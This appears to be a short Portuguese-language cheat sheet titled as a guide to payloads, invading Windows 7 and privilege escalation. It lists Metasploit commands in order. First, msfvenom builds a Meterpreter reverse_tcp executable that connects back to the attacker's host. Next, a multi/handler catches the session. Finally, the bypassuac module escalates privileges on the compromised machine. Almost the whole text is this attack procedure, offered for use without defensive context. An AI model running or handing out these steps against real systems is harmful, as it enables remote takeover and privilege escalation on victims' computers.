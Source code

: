 # Payloads, Invadindo o Windows 7, Privilege Escalation

## Abrindo o MsfVenom

```bash
# msfvenom -h
```

## Criando Payload Meterpreter para Windows

```bash
# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=<local_ip> LPORT=<port> -f exe -o payload.exe
```

## Abrindo o Metasploit Framework Console

```bash
# msfconsole
```

## Utilizando o handler

```bash
# use exploit/multi/handler
```

## Selecionando o Meterpreter

```bash
# set payload windows/meterpreter/reverse_tcp
```

## Configurando payload

```bash
# set LHOST <local_ip> set LPORT <port>
```

## Executando handler para executar na porta

```bash
# exploit
```

## Saindo para background

```bash
# background
```

## Listando sessões abertas

```bash
# sessions
```

## Entrando em sessão

```bash
# sessions -i <ID>
```

## Escolhendo bypassuac

```bash
# use exploit/windows/local/bypassuac
```

## Configurando bypassuac

```bash
# set LHOST <local_ip> set LPORT <port> set session <session ID>
```

## Explorando

```bash
# exploit
```
